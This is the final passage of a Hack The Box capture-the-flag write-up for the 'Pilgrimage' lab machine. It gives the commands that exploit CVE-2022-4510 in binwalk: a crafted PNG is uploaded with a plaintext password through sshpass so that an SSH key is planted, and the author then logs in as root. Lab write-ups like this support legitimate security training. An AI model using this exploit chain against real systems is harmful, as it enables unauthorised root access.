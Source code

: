 ![](/assets/img/hackthebox/machines writeups/Pilgrimage/binwalk-exploit.png)


#### Exploit

first i creating a pair of Private-Public keys 

```console
(kali㉿kali)-[~/HTB/HTB Machines/Pilgrimage]$ ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): /home/kali/HTB/HTB Machines/Pilgrimage/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/HTB/HTB Machines/Pilgrimage/id_rsa
Your public key has been saved in /home/kali/HTB/HTB Machines/Pilgrimage/id_rsa.pub
The key fingerprint is:
SHA256:v5BzAoKZs6TwyPr0rIvROQemcwPd95PCNIkTgcT499Q kali@kali
The key's randomart image is:
+---[RSA 3072]----+
| +...            |
|. o  .           |
| .  .  .         |
| ..=.o..E        |
|o X.=o* S        |
|oX = *.+ +       |
|*.X . o O o      |
|.* *   . * .     |
|o.+oo     .      |
+----[SHA256]-----+
```


Then using this [Exploit Repo](https://github.com/adhikara13/CVE-2022-4510-WalkingPath) that abuses the plugin creation method. The output of the tool will be a  file named binwalk_exploit.png which has to be uploaded into the shrunk directory

```console
(kali㉿kali)-[~/HTB/HTB Machines/Pilgrimage/CVE-2022-4510-WalkingPath]$ python3.11 walkingpath.py ssh sample.png ../id_rsa.pub

(kali㉿kali)-[~/HTB/HTB Machines/Pilgrimage/CVE-2022-4510-WalkingPath]$ sshpass -p abigchonkyboi123 scp binwalk_exploit.png emily@pilgrimage.htb:/var/www/pilgrimage.htb/shrunk/
```


#### SSH 

Now using the private key we can ssh as root user

```console 
(kali㉿kali)-[~/HTB/HTB Machines/Pilgrimage/CVE-2022-4510-WalkingPath]$ ssh -i ../id_rsa root@pilgrimage.htb                                                                    
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```

Get the root.txt content

```console
root@pilgrimage$ cat root.txt
d3e8abcbae12********************
```
